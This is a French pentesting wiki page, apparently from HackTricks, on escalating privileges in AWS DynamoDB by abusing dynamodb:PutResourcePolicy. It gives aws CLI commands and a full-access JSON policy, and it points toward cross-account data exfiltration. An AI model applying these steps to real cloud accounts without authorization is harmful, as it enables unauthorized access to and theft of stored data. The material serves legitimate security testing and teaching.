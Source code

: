 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

Pour plus d'informations sur dynamodb, consultez :

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, et éventuellement `dynamodb:GetResourcePolicy`

Depuis mars 2024, AWS propose des *politiques basées sur les ressources* pour DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Donc, si vous possédez `dynamodb:PutResourcePolicy` sur une table, vous pouvez simplement vous accorder (ou accorder à tout autre principal) un accès complet à la table.

Attribuer `dynamodb:PutResourcePolicy` à un principal au hasard arrive souvent par accident, si les admins pensent que donner `dynamodb:Put*` permettrait seulement au principal d'insérer des items dans la base - ou s'ils ont accordé ce jeu de permissions avant mars 2024...

Idéalement, vous avez aussi `dynamodb:GetResourcePolicy`, afin de ne pas écraser d'autres permissions potentiellement vitales, mais d'injecter uniquement les permissions additionnelles dont vous avez besoin :
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Si vous ne pouvez pas récupérer la stratégie actuelle, utilisez simplement celle-ci qui accorde un accès complet à la table à votre principal :
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Si vous devez le personnaliser, voici une liste de toutes les actions possibles de DynamoDB : [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Et voici une liste de toutes les actions qui peuvent être autorisées via une resource based policy *ET lesquelles de celles-ci peuvent être utilisées cross-account (pensez à la data exfiltration !)* : [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Maintenant, avec le document de politique `policy.json` prêt, mettez la resource policy :
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Vous devriez maintenant disposer des permissions nécessaires.

### Post Exploitation

À ma connaissance, il n'existe **aucun autre moyen direct d'escalade de privilèges dans AWS simplement en disposant de certaines permissions AWS `dynamodb`**. Vous pouvez **lire des informations sensibles** depuis les tables (qui pourraient contenir AWS credentials) et **écrire des informations dans les tables** (ce qui pourrait déclencher d'autres vulnérabilités, comme lambda code injections...) mais toutes ces options sont déjà considérées dans la **DynamoDB Post Exploitation page**:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: Lire des données en abusant des data Streams

{{#include ../../../../banners/hacktricks-training.md}}
